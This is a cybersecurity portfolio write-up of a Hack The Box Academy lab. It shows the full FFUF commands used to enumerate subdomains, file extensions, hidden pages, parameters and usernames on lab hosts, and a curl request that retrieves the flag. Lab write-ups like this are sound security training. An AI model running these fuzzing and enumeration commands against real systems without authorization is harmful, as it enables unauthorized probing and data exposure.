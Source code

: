 
# Reconnaissance and Fuzzing with FFUF

**Author:** Jordan Davis  
**Project Type:** Cybersecurity Portfolio Project  
**Platform:** Hack The Box Academy  

---

## 📌 Executive Summary

This assessment demonstrates real-world reconnaissance and fuzzing techniques using FFUF (Fuzz Faster U Fool) within a controlled lab environment on Hack The Box Academy. It walks through subdomain enumeration, file extension fuzzing, hidden page discovery, parameter enumeration, and value fuzzing to ultimately retrieve a sensitive flag from a web service.

This workflow mirrors foundational steps in offensive security, penetration testing, and bug bounty reconnaissance.

---

## 🎯 Objective

- Enumerate subdomains
- Discover accepted file extensions
- Identify hidden pages and directories
- Fuzz parameters and values
- Extract sensitive information using filtering and automation

---

## 🛠️ Tools & Environment

- **Tool:** FFUF (`Fuzz Faster U Fool`)
- **Wordlists:** [SecLists](https://github.com/danielmiessler/SecLists)
    - DNS
    - Web extensions
    - Directory names
    - Parameter names
    - Common usernames
- **Target Platform:** Hack The Box Academy FFUF Skill Assessment
- **System Environment:** Pwnbox (Parrot OS)

---

## 🔍 Methodology and Results

### 1. 🔎 Subdomain Discovery

**Command:**
```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:39069 -H 'Host: FUZZ.academy.htb' -v -c -fs 985
```

**Identified Subdomains:**
- `test.academy.htb`
- `archive.academy.htb`
- `faculty.academy.htb`

---

### 2. 🧩 Extension Fuzzing

**Command:**
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://academy.htb:39069/index.FUZZ -v -c
```

**Identified Extensions:**
- `academy.htb`: `.php`, `.phps`
- `test.academy`, `archive.academy`: `.php`
- `faculty.academy`: `.php7`

---

### 3. 🗂️ Hidden Page Discovery

**Command:**
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:39069/courses/FUZZ -v -c -e .php,.php7,.phps -fs 287
```

**Result:**
- `http://faculty.academy.htb:39069/courses/linux-security.php7`

---

### 4. 🧪 Parameter Discovery

**Command:**
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:39069/courses/linux-security.php7?FUZZ=test -X POST -d 'FUZZ=key' -H 'Content-type: application/x-www-form-urlencoded' -fs 774
```

**Discovered Parameters:**
- `user` (GET)
- `username` (POST)

---

### 5. 🔓 Parameter Value Fuzzing

**Command:**
```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:48440/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -v -c -fs 781
```

**Flag Retrieved With:**
```bash
curl http://faculty.academy.htb:48440/courses/linux-security.php7 -X POST -d 'username=harry'
```

---

## ✅ Conclusion

This exercise showcases:
- Subdomain enumeration
- Extension fuzzing
- Directory/page discovery
- Parameter fuzzing
- Sensitive data extraction through automation

These are foundational web reconnaissance techniques used in professional penetration testing and bug bounty workflows.

---
